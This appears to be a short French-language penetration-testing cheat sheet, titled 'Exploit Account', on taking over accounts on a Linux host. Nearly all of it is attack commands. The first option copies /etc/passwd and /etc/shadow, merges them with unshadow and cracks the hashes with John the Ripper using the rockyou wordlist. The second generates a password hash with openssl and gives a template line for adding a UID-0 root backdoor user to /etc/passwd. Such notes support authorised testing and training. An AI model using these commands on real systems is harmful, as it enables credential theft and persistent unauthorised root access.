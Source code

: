 # Exploit Account

Exploiter un compte

**Option 1: Craquage de mot de passe**

```sh
cat /etc/passwd > passwd.txt
cat /etc/shadow > shadow.txt
```

```sh
unshadow passwd.txt shadow.txt > crack.txt
```

```sh
john crack.txt --wordlist=/opt/rockyou.txt
```

**Option 2: Cree un utilisateur**

Ajouter un nouvel utilisateur disposant des privilèges root. ce qui contourne le processus fastidieux de craquage de mot de passe

- Nous ajouterons ensuite ce mot de passe avec un nom d'utilisateur au `/etc/passwd`
- basculer vers cet utilisateur nouvellement creer

```sh
openssl passwd -1 salt <USERNAME> <PASSWORD>
```

Modele

```sh
<NEW_USERNAME>:<NEW_PASSWORD>:0:0:root:/root:/bin/bash
```